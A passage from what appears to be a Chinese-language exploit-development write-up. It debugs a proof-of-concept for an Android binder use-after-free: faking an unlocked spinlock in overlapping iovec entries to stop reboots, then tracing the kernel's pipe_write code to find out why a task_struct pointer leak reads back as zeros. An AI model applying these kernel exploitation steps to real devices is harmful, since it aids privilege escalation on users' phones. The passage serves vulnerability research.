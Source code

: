 一共 32bit，高低 16bit 相等时认为处于解锁，不等时处于加锁。类似于餐厅取号等叫号再入座的逻辑。上面写入 PAGE_SIZE 后，在 `epoll_ctl(EPOLL_CTL_DEL)` 时对这个锁有操作就崩了（我也不知道为什么）。需要将 `bio.iovs[9].iov_len` 改成一个已解锁的 spinlock 内容，例如 `0x0`, `0x00010001`, `0x00020002` 之类。看着 0 比较简单，就先改 0 吧。

### 2. read 出来数据全为 0x00

#### Round 1

上面改完以后，我的 iovec 变成这样

```c
/* PoC */
bio.iovs[9].iov_base  = dummy_page;
bio.iovs[9].iov_len   = 0;
bio.iovs[10].iov_base = dummy_page; /* 非独享设备，我把这里也改成有效地址，避免总是重启影响别人用（虽然没卵用） */
bio.iovs[10].iov_len  = PAGE_SIZE;
```

在触发漏洞时，会被解释为

```c
binder_thread->wait.lock      = 0;
binder_thread->wait.head.next = &binder_thread->wait.head;
binder_thread->wait.head.prev = &binder_thread->wait.head;
```

这次 spinlock 过了，机器不会重启，但是结果 read 出来全是 0，没有我们要的 task_struct *

这里需要看看 pipe 写入的流程了：

```c
/* fs/pipe.c */
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
	size_t total_len = iov_iter_count(from); // 刚进入函数就计算好了要复制的长度，此时还没有触发漏洞
	ssize_t chars;

    /* 条件检查 */

	/* We try to merge small writes */
	chars = total_len & (PAGE_SIZE-1); /* size of the last buffer */
	if (pipe->nrbufs && chars != 0) {
		int lastbuf = (pipe->curbuf + pipe->nrbufs - 1) &
							(pipe->buffers - 1);
		struct pipe_buffer *buf = pipe->bufs + lastbuf;
		int offset = buf->offset + buf->len;

		if (buf->ops->can_merge && offset + chars <= PAGE_SIZE) {
			/* 条件检查 */

			ret = copy_page_from_iter(buf->page, offset, chars, from);
			/* 错误检查、唤醒 */
			buf->len += ret;
			if (!iov_iter_count(from))
				goto out;
		}
	}

	for (;;) {
		int bufs;

		/* 条件检查 */
		bufs = pipe->nrbufs;
		if (bufs < pipe->buffers) {
			struct page *page = pipe->tmp_page;
			int copied;
```